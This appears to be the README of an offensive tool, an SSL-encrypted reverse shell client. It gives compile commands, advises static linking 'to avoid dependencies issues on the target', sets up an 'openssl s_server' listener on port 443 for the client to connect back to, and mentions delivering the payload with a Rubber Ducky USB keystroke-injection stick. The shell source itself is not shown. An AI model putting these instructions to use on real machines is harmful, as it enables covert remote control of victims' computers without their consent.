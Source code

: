 

## Compilation and Use :
 
  Before compiling, please make sure you have the OpenSSL dev package installed.
  Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>

  You will probably want to link statically against the library to avoid dependencies issues on the target. 
  You can either use [ncat](http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .
  To test the client, you can use openssl s_server utility on your server and wait for connections: </br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>



## Rubber Ducky Script :
  
  This is a script that can be used to deliver your payload using HAK5 [Rubber Ducky USB stick](https://ducktoolkit.com).
